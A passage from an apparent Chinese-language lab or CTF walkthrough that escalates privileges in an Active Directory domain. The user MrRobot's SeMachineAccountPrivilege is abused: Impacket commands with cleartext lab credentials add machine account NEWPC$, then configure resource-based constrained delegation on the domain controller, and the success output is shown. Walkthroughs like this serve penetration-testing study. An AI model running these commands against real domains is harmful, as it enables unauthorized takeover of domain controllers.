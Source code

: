 ```powershell
SeMachineAccountPrivilege     将工作站添加到域 已启用
SeChangeNotifyPrivilege       绕过遍历检查     已启用
SeIncreaseWorkingSetPrivilege 增加进程工作集   已启用


用户声明信息
-----------------------

用户声明未知。

已在此设备上禁用对动态访问控制的 Kerberos 支持。
```

输出结果中最引人注目的一点是，用户 `novice\mrrobot` 拥有 `SeMachineAccountPrivilege` 特权。

> **知识点**: `SeMachineAccountPrivilege` 特权允许持有者将计算机加入到域中。在默认的Active Directory配置下，普通域用户拥有此权限，并且最多可以将10个机器账户添加到域中。攻击者可以滥用此权限，创建一个由自己完全控制的机器账户，并以此为跳板进行后续的委派攻击，最终实现权限提升。

## **3.2 滥用机器账户配额**

我们利用 `SeMachineAccountPrivilege` 特权，使用 `addcomputer.py` 脚本以 `MrRobot` 的身份在域中添加一个名为 `NEWPC$` 的新机器账户，并为其设置一个我们已知的密码 `Password123!`。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ python3 /usr/share/doc/python3-impacket/examples/addcomputer.py -computer-name 'NEWPC$' -computer-pass 'Password123!' -dc-ip 192.168.205.132 novice.com/MrRobot:mrroboto12
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account NEWPC$ with password Password123!.
```

机器账户创建成功，我们现在拥有了一个域内的新身份。

## **3.3 配置基于资源的约束性委派 (RBCD)**

> **知识点**: 单纯创建一个机器账户并不能直接模拟管理员。我们需要配置域控制器，让它“信任”我们创建的 `NEWPC$` 账户可以代表其他用户（包括管理员）来请求服务。这个过程就是配置“基于资源的约束性委派”（RBCD）。我们通过修改域控主机对象（`DC$`）的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性，将我们控制的 `NEWPC$` 的SID添加进去，从而单向地建立信任关系。

利用 `MrRobot` 用户的权限，使用 `rbcd.py` 脚本来修改 `DC$` 的安全描述符，授予 `NEWPC$` 对 `DC$` 的委派权限。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ python3 /usr/share/doc/python3-impacket/examples/rbcd.py -action write -delegate-to 'DC$' -delegate-from 'NEWPC$' -dc-ip 192.168.205.132 'novice.com/MrRobot:mrroboto12'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] NEWPC$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     NEWPC$       (S-1-5-21-3649830887-1815587496-1699028491-2601)
```
